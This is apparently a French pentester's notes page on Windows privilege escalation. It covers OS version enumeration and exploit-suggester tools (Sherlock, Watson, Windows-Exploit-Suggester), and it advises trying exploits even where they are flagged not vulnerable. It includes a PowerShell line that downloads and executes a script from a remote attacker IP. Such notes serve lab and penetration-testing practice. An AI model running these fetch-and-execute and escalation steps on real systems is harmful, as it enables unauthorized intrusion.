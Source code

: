 ```yaml
---
public: true
---
```

## Version de Windows

```shell
# Si on souhaite les informations du système d'exploitation uniquement on pourra utiliser cette commande
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

[environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

On trouvera sur ce site la version exacte de Windows en fonction de la version du noyau remonté par les commandes suivantes

[Liste des Versions Windows](https://en.wikipedia.org/wiki/Windows_10_version_history)

## Escalade de privilèges

Selon la version du système d'exploitation, on pourra utiliser un des outils suivants pour trouver des exploits qui pourraient fonctionner sur la machine cible :

- Avant Windows Server 2016 : <https://github.com/rasta-mouse/Sherlock>
- Windows Server 2016 et supérieur : <https://github.com/rasta-mouse/Watson>

On peut aussi tenter <https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### Sherlock (versions anciennes de windows)

** Remarque** : Sherlock affiche une liste de vulnérabilité avec un `VulnStatus` qui peut avoir la valeur `Not Vulnerable`. J'ai pu constater que même si il était marqué `Not Vulnerable`, certains exploits fonctionnent tout de même.... Cela peut donc être intéressant de tenter même d'autres exploits qui serait considérés comme "Non Applicable" (Attention à la stabilité du système !)

```powershell
iex ((New-Object Net.WebClient).DownloadString('http://10.10.15.96/Sherlock.ps1'))
Import-Module .\Sherlock.ps1
Find-AllVulns
```
